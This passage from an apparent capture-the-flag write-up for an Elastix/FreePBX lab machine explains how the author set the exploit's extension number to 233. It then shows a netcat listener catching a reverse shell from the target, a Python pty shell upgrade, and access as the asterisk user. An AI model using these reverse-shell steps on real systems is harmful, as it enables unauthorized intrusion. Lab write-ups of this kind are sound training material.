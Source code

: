 This number can be changed to any number, hence brute-forcing it might work. However, since we already logged into `Elastix`, we can actually see the `extension` number that we are supposed to use by going to `PBX` > `PBX Configuration` > `Basic` > `Extensions`.

![](/assets/images/beep9.png)

In this case, the number was `233`. After changing the `extension` in the script to `233` and executing it again,

```bash
$ sudo rlwrap nc -lvnp 1337
[sudo] password for kali: 
listening on [any] 1337 ...
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.7] 43564
python -c "import pty; pty.spawn('/bin/bash')"
id
uid=100(asterisk) gid=101(asterisk)
```

We got a shell as `asterisk` on our `nc` listener that we setup beforehand!